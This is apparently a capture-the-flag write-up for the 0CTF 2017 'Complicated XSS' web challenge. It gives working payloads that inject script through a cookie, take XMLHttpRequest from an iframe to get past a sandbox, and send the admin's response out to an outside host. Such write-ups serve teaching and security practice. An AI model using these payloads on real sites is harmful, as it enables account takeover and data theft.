 +++
date = "2017-03-20T10:14:18-07:00"
title = "0CTF 2017 - Complicated XSS"
tags = ["CTF", "Web", "XSS"]
+++

Cookies Monster...

<!--more-->

# Problem

> Does this look familiar?  
> http://government.vip/
> <hr />
> XSS Book
>
> The flag is in http://admin.government.vip:8000  
> Bruteforce and scanning are not needed!  
> Admin will be hit by your payload

# Solution

Login to admin page with pre-populated test account, we can see there are two cookies: `username` and `session`, and the
page says "only admin can upload shell".  Seems like we need to XSS admin to upload something.  The `session` cookie is
an HTTP cookie that cannot be accessed by script.  The `username` cookie however, is an XSS point.  Server reads `username`
cookie content and displayed it as raw HTML.

Now comes the tricky part: in the document header of admin page, some core component is stripped out.  Making AJAX call
will fail since there's no `XMLHttpRequest`.  I also tried [Fetch API][1] which works locally but server's browser
doesn't support it.

```html
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
```

Poking around and I found out that the embedded `iframe` element still have `XMLHttpRequest`.

Another trick that blocked me for quite a while is that the admin page only renders upload form if `username` cookie is
"admin".  So we need to reset cookie and fetch admin page again to see what parameters are needed for upload.
Otherwise, it keeps hitting `400: bad request`.

```html
<h1>Hello admin</h1>

<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```

Here's the XSS payload.

```javascript
document.cookie="username=<iframe></iframe><script src='http://.../a.js'></script>;path=/;domain=.government.vip";
window.location="http://admin.government.vip:8000";
```

a.js

```javascript
document.cookie="username=admin";

var xhr = new frames[0].XMLHttpRequest;
xhr.onreadystatechange = function() {
  if (xhr.readyState === 4) {
    var result = xhr.responseText;
    result += ",";
    result += xhr.status;
    result += ",";
    result += xhr.getAllResponseHeaders();
    window.location="http://.../?a=" + btoa(result);
  }
}

xhr.open('POST', '/upload', true);

var fblob = new Blob(["any content here"]);
var formData = new FormData();
formData.append("file", fblob);

xhr.send(formData);
```

Decoded response:

```
flag{xss_is_fun_2333333},200,Server: TornadoServer/4.4.2
Content-Length: 24
Content-Type: text/html; charset=utf-8
```

[1]: https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API
